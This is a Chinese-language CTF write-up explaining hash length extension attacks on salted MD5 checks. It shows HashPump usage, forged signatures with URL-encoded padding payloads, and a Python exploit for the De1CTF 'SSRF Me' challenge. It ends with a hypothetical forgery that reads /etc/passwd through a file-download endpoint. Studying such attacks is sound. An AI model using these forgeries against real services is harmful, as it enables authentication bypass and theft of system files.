

能做什么 如果salt的值你不知道，但是你知道长度，又知道sha1(salt)，那么就也就可以知道sha1(salt+“填充数据”+“任意可控数据”).这里的salt+“填充数据”就是对salt进行sha1时所补全的数据+最后8位的长度描述符。一般来说，salt+”填充数据”的长度就是64字节，正好是一个分组。如果salt的长度就大于了56个字节，那么加入填充数据后的长度应该是N个64字节，等于N个分组。
你把下面的例子中的“1234567890abcdeadminadmin”,"memeadmin"想成是salt,然后再考虑下呢？
HashPump安装 1 2 3 4 5 git clone https://github.com/bwall/HashPump apt-get install g++ libssl-dev cd HashPump make make install
在执行make的时候可能会出现openssl/sha.h没有文件的错误
1 2 sudo apt-get install openssl sudo apt-get install libssl-dev
然后make 和make install即可
1 2 3 4 5 6 7 kitty@ubuntu:~/桌面/HashPump$ hashpump Input Signature: c7813629f22b6a7d28a08041db3e80a9 Input Data: admin Input Key Length: 4 Input Data to Add: joychou 06cf5a94dcda53659f58c0f411ba0bd8 admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00joychou
参数说明
1 2 3 4 signature来自已知消息的签名。 data来自已知消息的数据。 additional您要添加到已知消息的信息。 keylength 用于对原始消息进行签名的密钥的长度（以字节为单位）。是除去一个admin的长度（具体看题）
得到的第一行是新的hash值 第二行是payload
题目 测试 其中$salt = "meme";玩家不可见，计算不能用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php $role = $_REQUEST["role" ]; $hash = $_REQUEST["hash" ]; $salt = "meme" ; if ($hash !== md5($salt.$role)){ echo 'wrong!' ; exit ; } x if ( $role == 'admin' ){ echo 'wrong, hash cann\'t be admin' ; exit ; } echo "You are " .$role.'</br>' ;echo 'Congradulation!' ;?>
首先计算
1 2 3 4 5 6 7 kitty@ubuntu:~/桌面$ hashpump Input Signature: c7813629f22b6a7d28a08041db3e80a9 Input Data: admin Input Key Length: 4 Input Data to Add: st4ck 92910845adf673d71ca809b196bcab9e admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00st4ck
编码
1 admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00H%00%00%00%00%00%00%00st4ck
然后传参，由于没有urldecode，所以要最好用get,因为get请求自带urldecode
1 2 http://localhost/index.php?role=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00H%00%00%00%00%00%00%00st4ck 内容：hash=92910845adf673d71ca809b196bcab9e

题目2-实验吧-为了方便改了一下本地测试 其中$secret="1234567890abcde";给玩家不可见，计算也不能使用这个数据，这里展示出来只是为了本地操作
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php $secret="1234567890abcde" ; $username="admin" ; $flag="flag{test}" ; $password = $_POST["password" ]; if ($_POST["getmein" ] === md5($secret . urldecode($username . $password))){ echo "Congratulations! You are a registered user.\n<br>" ; die ("The flag is " . $flag); }else { die ("Your cookies don't match up! STOP HACKING THIS SITE." ); } ?>
题目中能得到信息
1 md5($secret."adminadmin" )的值为93 a5e7bea9c040065617b1a62ffc3d72
稍微整理下我们已经知道的
1 2 3 $secret是密文，长度为15，如果再算上后面第一个admin，长度就是20 而数据是admin 签名（哈希值）是93a5e7bea9c040065617b1a62ffc3d72
第一步计算payload
1 2 3 4 5 6 7 kitty@ubuntu:~/桌面$ hashpump Input Signature: 93a5e7bea9c040065617b1a62ffc3d72 Input Data: admin Input Key Length: 20 Input Data to Add: st4ck bf3722a5e102e94a83adef7cbf34a30b admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\x00\x00\x00\x00\x00\x00\x00st4ck
换一下编码
1 password=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8%00%00%00%00%00%00%00st4ck&getmein=bf3722a5e102e94a83adef7cbf34a30b
由于自带urldecode，所以可以直接使用·
题目3-哈希长度拓展攻击之De1CTF - SSRF Me 给出了源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 from flask import Flaskfrom flask import requestimport socketimport hashlibimport urllibimport sysimport osimport jsonreload(sys) sys.setdefaultencoding('latin1' ) app = Flask(__name__) secert_key = os.urandom(16 ) class Task : def __init__ (self, action, param, sign, ip) : self.action = action self.param = param self.sign = sign self.sandbox = md5(ip) if (not os.path.exists(self.sandbox)): os.mkdir(self.sandbox) def Exec (self) : result = {} result['code' ] = 500 if (self.checkSign()): if "scan" in self.action: tmpfile = open("./%s/result.txt" % self.sandbox, 'w' ) resp = scan(self.param) if (resp == "Connection Timeout" ): result['data' ] = resp else : print resp tmpfile.write(resp) tmpfile.close() result['code' ] = 200 if "read" in self.action: f = open("./%s/result.txt" % self.sandbox, 'r' ) result['code' ] = 200 result['data' ] = f.read() if result['code' ] == 500 : result['data' ] = "Action Error" else : result['code' ] = 500 result['msg' ] = "Sign Error" return result def checkSign (self) : if (getSign(self.action, self.param) == self.sign): return True else : return False @app.route("/geneSign", methods=['GET', 'POST']) def geneSign () : param = urllib.unquote(request.args.get("param" , "" )) action = "scan" return getSign(action, param) @app.route('/De1ta',methods=['GET','POST']) def challenge () : action = urllib.unquote(request.cookies.get("action" )) param = urllib.unquote(request.args.get("param" , "" )) sign = urllib.unquote(request.cookies.get("sign" )) ip = request.remote_addr if (waf(param)): return "No Hacker!!!!" task = Task(action, param, sign, ip) return json.dumps(task.Exec()) @app.route('/') def index () : return open("code.txt" ,"r" ).read() def scan (param) : socket.setdefaulttimeout(1 ) try : return urllib.urlopen(param).read()[:50 ] except : return "Connection Timeout" def getSign (action, param) : return hashlib.md5(secert_key + param + action).hexdigest() def md5 (content) : return hashlib.md5(content).hexdigest() def waf (param) : check=param.strip().lower() if check.startswith("gopher" ) or check.startswith("file" ): return True else : return False if __name__ == '__main__' : app.debug = False app.run(host='0.0.0.0' ,port=80 )
确实看起来好懵逼啊
1 2 3 4 5 提示给的是 flag 在 ./flag.txt 中 python 的 flask 框架，三个路由，index 用于获取源码，geneSign 用于生成 md5，De1ta 就是挑战 大概思路就是在 /De1ta 中 get param ，cookie action sign 去读取 flag.txt，其中，param=flag.txt，action 中要含有 read 和 scan，且 sign=md5(secert_key + param + action)
使用哈希拓展攻击
1 secert_key 是一个长度为 16 的字符串，在 /geneSign?param=flag.txt 中可以获取 md5(secert_key + 'flag.txt' + 'scan') 的值,为 4bb4d74933b882b845a15a384f927bab，而目标则是获取 md5(secert_key + 'flag.txt' + 'readscan') 的值
首先用hashpump
1 2 3 4 5 6 7 kitty@ubuntu:~/桌面$ hashpump Input Signature: 4bb4d74933b882b845a15a384f927bab Input Data: scan Input Key Length: 24 Input Data to Add: read 13e9cdc14801527def75d258d46cab59 scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
所以exp为:
1 2 3 4 5 6 7 8 9 10 11 import requestsurl = 'http://acc709a0-59ca-44ac-9af9-5cf20b5635c0.node2.buuoj.cn.wetolink.com:82/De1ta?param=flag.txt' cookies = { 'sign' : '13e9cdc14801527def75d258d46cab59' , 'action' : 'scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read' , } res = requests.get(url=url, cookies=cookies) print(res.text)
也可以字符串拼接/geneSign?param=flag.txt 的时候，返回的 md5 就是 md5('xxx' + 'flag.txt' + 'scan') ，在 python 里面上述表达式就相当于md5(xxxflag.txtscan)，这就很有意思了。
直接构造访问/geneSign?param=flag.txtread ，拿到的 md5 就是md5('xxx' + 'flag.txtread' + 'scan') ，等价于 md5('xxxflag.txtreadscan')，这就达到了目标。md5('xxx' + 'flag.txtread' + 'scan')等于md5('xxx' + 'flag.txt' + 'readscan')/De1ta?param=flag.txt构造 cookie: action=readscan;sign={上面获得的md5值}即可
想法 通过以上的分析，想必大家对此攻击有了更深入的认识。只要存在脆弱的（使用此类散列算法）Message authentication codes (MACs)用于验证信息真实性的地方就很可能受此攻击。/download?name=test.pdf&sig=6543109bb53887f7bb46fe424f26e24asig可能是这个文件的某种校验签名，如果想通过这个接口下载其他文件就会失败，因为sig校验不过。同时还会发现md5(name) !== sig，很明显在校验算法中添加了盐，如果我们想下载任意的文件比如test.pdf%00/../../../../etc/passwd，正常情况下是没办法的，因为有盐，所以我们无法构造自己的签名值，但是如果服务端使用了类似if ($sig === md5($salt.$name))的校验代码，那么就会存在此攻击。